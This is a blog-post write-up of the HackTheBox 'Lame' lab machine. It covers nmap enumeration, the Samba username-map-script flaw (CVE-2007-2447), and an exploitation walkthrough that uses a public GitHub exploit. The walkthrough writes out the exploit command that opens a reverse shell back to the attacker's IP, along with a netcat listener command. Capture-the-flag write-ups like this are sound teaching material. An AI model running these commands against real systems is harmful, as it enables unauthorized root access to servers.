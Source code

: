+++
title = 'HackTheBox - Lame'
date = 2023-09-15T17:03:12+02:00
draft = false
+++

**Lame** is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

# Info


    OS - Linux
    Difficulty - Easy
    Points - /
    Release - 14 Mar, 2017
    IP - 10.10.10.3

# Enumeration

## Nmap Scan

**`nmap -sC -sV -Pn 10.10.10.3`**

```Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-15 17:13 CEST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.055s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  Q5V      Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m33s, deviation: 2h49m44s, median: 31s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-09-15T11:14:12-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

## Service Observation

Here we can't see any open HTTP or HTTPS ports, but what we can see is open ftp, ssh and samba ports, after the research about services and their versions we can see that Samba on port 139 is vulnerable (CVE-2007-2447).

## More about CVE-2007-2447
To exploit this vulnerability, an attacker would send a specially crafted request to the Samba server, taking advantage of the username map script feature. By doing so, they could execute arbitrary code with the privileges of the Samba server process, potentially gaining control over the server.

# Exploitation

To exploit this vulnerability we found we are gonna use publicly available exploit:
https://github.com/amriunix/CVE-2007-2447

First what we are gonna do is install this tool and read the usage commands!

```
python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

- `RHOST` -- The target address
- `RPORT` -- The target port (TCP : 139)
- `LHOST` -- The listen address
- `LPORT` -- The listen port

In this specific scenario:
**RHOST** = `10.10.10.3`
**RPORT** = `139`
Now we will get the lhost by running the command `ifconfig` 
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet ***10.10.14.5***  netmask 255.255.254.0  destination 10.10.14.5

So in this scenario
**LHOST** = `10.10.14.5`
**LPORT** = (we can choose the port we want, in this case i choose 1234) = `1234`

so the command would be 

```
python usermap_script.py 10.10.10.3 139 10.10.14.5 1234
```

Before running the command we will run *netcat* listener on port **1234** like this:

```
nc -lvnp 1234
```

After running the exploit we will get the *reverse shell* as **root**

![Minion](https://github.com/pepax3/pepax3.github.io/blob/main/content/posts/HackTheBox%20-%20Lame/PoC.png?raw=true)




